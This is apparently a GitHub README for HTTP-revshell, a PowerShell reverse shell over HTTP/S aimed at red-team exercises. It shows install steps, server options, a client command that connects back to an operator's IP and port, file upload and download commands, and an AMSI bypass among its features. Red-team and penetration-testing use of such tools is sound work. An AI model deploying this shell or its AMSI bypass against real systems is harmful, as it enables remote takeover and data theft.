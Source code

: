 Powershell HTTP/S Reverse Shell
------------

HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol.

<p align="center"><img width=500 alt="HTTP-revshell" src="https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/images/logo.png"></p>

Installation
------------

```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell/
pip3 install -r requirements.txt
```

server-multisession.py - server multisession
------------

```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application
```
**IMPORTANT**: To change the session press *CTRL+d* to exit the current session without closing it.

server.py - server unisession
------------

Server usage:
```
usage: server.py [-h] [--ssl] [--autocomplete] host port

Process some integers.

positional arguments:
  host            Listen Host
  port            Listen Port

optional arguments:
  -h, --help      show this help message and exit
  --ssl           Send traffic over ssl
  --autocomplete  Autocomplete powershell functions
```

Invoke-WebRev.ps1 - client
------------

Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

Extra functions
------------

```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

```
Download
    Usage: download C:\src\path\file /dst/path/file
```

Features
------------

    - SSL
    - Proxy Aware
    - Upload Function
    - Download Function
    - Error Control
    - AMSI bypass
    - Multiple sessions [only server-multisession.py]
    - Autocomplete PowerShell functions (optional) [only server.py]

TODO
------------

    - ??
    
